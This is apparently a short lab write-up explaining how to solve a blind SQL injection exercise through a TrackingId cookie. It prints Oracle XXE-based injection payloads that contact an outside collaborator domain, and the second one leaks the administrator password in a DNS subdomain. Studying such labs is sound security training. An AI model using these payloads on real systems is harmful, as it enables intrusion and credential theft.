


# Blind SQL injection with out-of-band data exfiltration

## Description

`TrackingId` cookie which is used in a query but it's excuted async and has no effect on response however we still able to exploit `out of band SQLI`.

## Objectivie

retrieve `administrator` password from `users` table that has `username` and `password` columns

## Steps

1. First we try payloads for diffrent DB types
2. as the previous lap the oracle OAST payload worked.
   `x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'trohp0glz7sziff1obtoyshc83eu2zqo.oastify.com/"> %remote;]>'),'/l') FROM dual--`
   
3. Know we need to make a query to retrieve data so we can simply use `select password from users where username='administrator'` and the result will be the third level subdomain of our collaporator.
   `x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://''||(select password from users where username='administrator)||'.trohp0glz7sziff1obtoyshc83eu2zqo.oastify.com/"> %remote;]>'),'/l') FROM dual--`
4. so let's try it.
5. Look at thar we get's the `administrator` password
   
6. Submit and that's it we solve the lap.
